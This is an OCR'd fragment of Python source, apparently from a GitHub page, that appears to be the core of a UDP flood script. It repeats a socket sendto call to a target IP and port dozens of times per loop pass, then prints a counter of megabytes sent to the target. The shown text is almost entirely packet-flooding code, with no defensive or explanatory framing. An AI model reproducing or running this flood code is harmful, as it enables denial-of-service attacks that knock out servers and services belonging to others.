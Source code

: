          sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))


     
     print("││ ID:%s  │  Sent %sMB to %s port:%s"%(str((id)).zfill(4),c,ipp,open))
     id+=1
     if id%100==0 or id>100 and id%1000==0:
         nx=len(("││ ID:%s  │  Sent %sMB to %s port:%s"%(str((id)).zfill(4),c,ipp,open)))
         print("―"*nx)
         
